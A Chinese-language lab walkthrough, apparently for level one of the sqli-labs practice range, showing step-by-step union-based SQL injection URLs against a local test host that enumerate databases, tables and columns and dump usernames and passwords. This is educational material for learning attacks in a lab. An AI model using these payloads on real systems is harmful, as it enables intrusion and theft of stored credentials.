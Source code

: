 # SQLI靶场
    


[![NPM](https://img.shields.io/npm/v/docsify-themeable.svg?style=flat-square)](https://www.npmjs.com/package/docsify-themeable)
[![Codacy grade](https://img.shields.io/codacy/grade/860d40719cbd4e0f91e145b87ec7c29a.svg?style=flat-square)](https://www.codacy.com/app/jhildenbiddle/docsify-themeable?utm_source=github.com&amp;utm_medium=referral&amp;utm_content=jhildenbiddle/docsify-themeable&amp;utm_campaign=Badge_Grade)
[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg?style=flat-square)](https://github.com/jhildenbiddle/docsify-themeable/blob/master/LICENSE)
[![jsDelivr](https://data.jsdelivr.com/v1/package/npm/docsify-themeable/badge)](https://www.jsdelivr.com/package/npm/docsify-themeable)
[![Tweet](https://img.shields.io/twitter/url/http/shields.io.svg?style=social)](https://twitter.com/intent/tweet?url=https%3A%2F%2Fgithub.com%2Fjhildenbiddle%2Fdocsify-themeable&hashtags=css,docsify,developers,frontend)
<a class="github-button" href="https://github.com/jhildenbiddle/docsify-themeable" data-icon="octicon-star" data-show-count="true" aria-label="Star jhildenbiddle/docsify-themeable on GitHub">Star</a>

## 第一关-GET – 基于错误 – 单引号 – 字符型
    可以在代码里sql语句下添加输出语句，更方便查看sql语句的效果
      
      $sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
      echo "your sql statement is ".$sql."<br>";   
**1.添加id=1正常，id=1' 报错，报错，发现报错信息多出一个单引号，后面闭合语句也是用的单引号发现页面返回正常，说明是字符型注入，单引号。**
```
http://192.168.2.135/sqli/Less-1/?id=1'
```
  <figure class="thumbnails">
    <img src="assets/img/sqli第一关.png" alt="Screenshot of coverpage" title="Cover page">
    
</figure>

**2.在url中把单引号后面的语句注释掉。 返回正常，说明sql语句执行成功了，因为条件永远为真，所以正常返回**
```  
http://192.168.2.135/sqli/Less-1/?id=1' --+ 
```

  <figure class="thumbnails">
    <img src="assets/img/sqli第一关1.png" alt="Screenshot of coverpage" title="Cover page">
    
</figure>

**3. 猜解字段数，测试到4的时候报错，说明字段数是3。**
```
http://192.168.2.135/sqli/Less-1/?id=1' order by 3--+ 
```

  <figure class="thumbnails">
    <img src="assets/img/sqli第一关2.png" alt="Screenshot of coverpage" title="Cover page">
    
</figure>

**4.确定显位数字，发现2,3均可回显**
```
http://192.168.2.135/sqli/Less-1/?id=-1' union select 1,2,3--+
```

  <figure class="thumbnails">
    <img src="assets/img/sqli第一关3.png" alt="Screenshot of coverpage" title="Cover page">
    
</figure>

**5.获取当前数据库名，报错注入，数据库名为：security**
```
http://192.168.2.135/sqli/Less-1/?id=-1' union select 1,
(select database()) ,
3 --+
```

  <figure class="thumbnails">
    <img src="assets/img/sqli第一关4.png" alt="Screenshot of coverpage" title="Cover page">
    
</figure>

**65.还可以获取所有的数据库名**
```
http://192.168.2.135/sqli/Less-1/?id=-1' union select 1,
2,
(select group_concat(schema_name) from information_schema.schemata)--+
```

  <figure class="thumbnails">
    <img src="assets/img/sqli第一关5.png" alt="Screenshot of coverpage" title="Cover page">
    
</figure>

**7.获取当前数据库security的表名**
```
http://192.168.2.135/sqli/Less-1/?id=-1' union select 1,
2,
(select group_concat(table_name) from information_schema.tables where table_schema =0x7365637572697479)--+

(security的hex编码是7365637572697479)
```

  <figure class="thumbnails">
    <img src="assets/img/sqli第一关6.png" alt="Screenshot of coverpage" title="Cover page">
    
</figure>

**8.获取表的列名**
```
http://192.168.2.135/sqli/Less-1/?id=-1' union select 1,
2,
(select group_concat(column_name) from information_schema.columns where table_schema =0x7365637572697479 and table_name=0x7573657273)--+
```

  <figure class="thumbnails">
    <img src="assets/img/sqli第一关8.png" alt="Screenshot of coverpage" title="Cover page">
    
</figure>


**9.获取字段数据**
```
http://192.168.2.135/sqli/Less-1/?id=-1' union select 1,2,
(select group_concat(id,0x7c,username,0x7c,password) from security.users) --+
```

  <figure class="thumbnails">
    <img src="assets/img/sqli第一关7.png" alt="Screenshot of coverpage" title="Cover page">
    
</figure>

**10.其他语句等等**

### 第一关结束！！！！




<!-- GitHub Buttons -->
<script async defer src="https://buttons.github.io/buttons.js"></script>